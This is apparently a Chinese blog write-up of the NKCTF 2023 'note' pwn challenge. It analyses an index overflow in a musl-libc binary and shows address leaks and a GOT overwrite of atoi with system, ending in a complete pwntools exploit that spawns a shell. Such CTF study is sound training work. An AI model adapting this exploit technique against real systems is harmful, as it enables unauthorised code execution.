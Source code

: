 ```yaml
---
title: nkctf_note
date: 2023-03-29 17:23:02
categories: 
- pwn_wp
tags: 
- pwn
- musl
- index_overflow

---
```


nkctf的一道题，看到libc是musl的之后没仔细看就跑去学musl了，结果上了大当，这题和musl libc没什么关系。

<!-- more -->

## 查壳

用的musl libc1.2.3。

```sh
musl libc (x86_64)
Version 1.2.3
Dynamic Program Loader
```

当时没注意到`RELRO: Partial RELRO`，也就是说**可以改写GOT表**

```sh
[*] '/home/a1ph0nse/PwnPractice/CtfGame/NK/note/nk_note'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## 逆向分析

具有增删查改的功能。

首先指定要的操作，然后输入idx

增：堆指针从0x40A0开始，chunk的size可以任意指定，`malloc`后存入`(&ptr)[idx]`，并写入size大小的content。

删：释放idx指定的chunk，并且在对应位置清0。

查：`puts((const char *)(&ptr)[idx])`。

改：向idx指定的chunk写入size大小的content。

存在问题：

- `idx`是`int`类型且没有限制，可以超出堆指针的范围，可以是负数。
- 改的时候没有对`size`进行检测

## 漏洞利用

堆指针在`bss`段，`idx`可以下标溢出写到其他地方。这里写的方法是从`ptr+offset`处取出一个地址`addr`，修改`addr`指向位置的内容。

这里的GOT表可以写，但因为有PIE我们不能直接定位到GOT表，要先想办法泄露地址。

```asm
0x55bccd41c0a0 <ptr>:	0x0000000000000000	0x0000000000000000
0x55bccd41c0b0 <ptr+16>:	0x0000000000000000	0x0000000000000000
0x55bccd41c0c0 <ptr+32>:	0x0000000000000000	0x0000000000000000
0x55bccd41c0d0 <ptr+48>:	0x0000000000000000	0x0000000000000000
0x55bccd41c0e0 <ptr+64>:	0x0000000000000000	0x0000000000000000
0x55bccd41c0f0 <ptr+80>:	0x0000000000000000	0x0000000000000000
0x55bccd41c100 <ptr+96>:	0x0000000000000000	0x0000000000000000
0x55bccd41c110 <ptr+112>:	0x0000000000000000	0x0000000000000000
0x55bccd41c120:	0x000055bcced64018	0x0000ff0000000000
```

可以看到在bss段后面ptr+0x80的位置有一个堆地址0x000055bcced64018，使用`mheap`可以看到他是`active[23]`的一个`meta`：

```asm
active[23] : 0x55bcced64018 (mem: 0x55bccd41c120)
pwndbg> p *(struct meta*)0x55bcced64018
$1 = {
  prev = 0x55bcced64248,
  next = 0x55bcced640e0,
  mem = 0x55bccd41c120, # 与elfbase的偏移是固定的
  avail_mask = 0,
  freed_mask = 1,
  last_idx = 0,
  freeable = 0,
  sizeclass = 23,
  maplen = 0
}

```

而其中的`mem`与程序基地址的偏移是固定的，可以通过它泄露出基地址。

```asm
             Start                End Perm     Size Offset File
    0x55bccd418000     0x55bccd419000 r--p     1000      0 /home/a1ph0nse/PwnPractice/CtfGame/NK/note/nk_note
    0x55bccd419000     0x55bccd41a000 r-xp     1000   1000 /home/a1ph0nse/PwnPractice/CtfGame/NK/note/nk_note
    0x55bccd41a000     0x55bccd41b000 r--p     1000   2000 /home/a1ph0nse/PwnPractice/CtfGame/NK/note/nk_note
    0x55bccd41b000     0x55bccd41c000 r--p     1000   2000 /home/a1ph0nse/PwnPractice/CtfGame/NK/note/nk_note
    0x55bccd41c000     0x55bccd41d000 rw-p     1000   3000 /home/a1ph0nse/PwnPractice/CtfGame/NK/note/nk_note
    0x55bccd41d000     0x55bccd41f000 rw-p     2000   5000 /home/a1ph0nse/PwnPractice/CtfGame/NK/note/nk_note
```

由上我们可以泄露`elfbase`和`heapbase`，为了防止出问题，泄露地址后要把被覆盖的内容恢复。

通过`elfbase`，我们可以定位到`ptr`和前面的`GOT`表，但要改写内容我们还需要知道`libcbase`，这样才知道要将`GOT`表项改写为什么内容。

看了WP才知道，**libc会将小的堆放在bss段中**，因此我们可以申请一个小的堆，在里面写上`GOT`表项的地址，借此泄露出`libcbase`，并改写`GOT`表项`get shell`。

这里选择改写`atoi`为`system`并输入`/bin/sh\x00`来`get shell`

**exp:**

```py
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='nk_note'
elf=ELF('./'+filename)
libc=ELF('./libc.so')
p=process('./'+filename)
#p=process(["qemu-arm","-L","...","-g", "8888", "./"+filename])
#p=process(['./ld-2.23.so','./'+filename],env={'LD_PRELOAD':'./libc-2.23.so'})
#p=remote('',)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()
    

def add(idx,size,content):
  ru("your choice: ")
  sl("1")
  ru("Index: ")
  sl(str(idx))
  ru("Size: ")
  sl(str(size))
  ru("Content: ")
  s(content)

def edit(idx,size,content):
  ru("your choice: ")
  sl("2")
  ru("Index: ")
  sl(str(idx))
  ru("Size: ")
  sl(str(size))
  ru("Content: ")
  s(content)

def free(idx):
  ru("your choice: ")
  sl("3")
  ru("Index: ")
  sl(str(idx))

def show(idx):
  ru("your choice: ")
  sl("4")
  ru("Index: ")
  sl(str(idx))


# leak heapbase
show(16)
heapaddr=uu64(ru('\n')[:-1])
leak("heapaddr",hex(heapaddr))
heapbase=heapaddr-0x248
leak("heapbase",hex(heapbase))

# leak elfbase
paylooad=b'a'*0x10
edit(16,0x10,paylooad)
show(16)
ru(b'a'*0x10)
elfbase=uu64(ru('\n')[:-1])-0x4120
leak("elfbase",hex(elfbase))

# recover the meta
payload=p64(heapaddr)+p64(heapbase+0xe0)
edit(16,0x10,payload)

ptr_addr=elfbase+0x40A0
leak("ptr_addr",hex(ptr_addr))

# note_addr=ptr+0x2f10
note_addr=ptr_addr+0x2f10
leak("note_addr",hex(note_addr))

atoi_got=elfbase+elf.got['atoi']
leak("atoi_got",hex(atoi_got))
payload=p64(atoi_got)+b'a'*0x28
add(0,0x30,payload)

# offset=0x2f10/0x8=0x5e2
# leak libc
show(0x5e2)
libc_addr=uu64(ru('\n')[:-1])
leak("libc_addr",hex(libc_addr))
libcbase=libc_addr-libc.sym['atoi']
leak("libcbase",hex(libcbase))

sys_addr=libcbase+libc.sym['system']
# get shell
payload=p64(sys_addr)
edit(0x5e2,0x8,payload)

r()
s("/bin/sh\x00")
# debug()

itr()
```



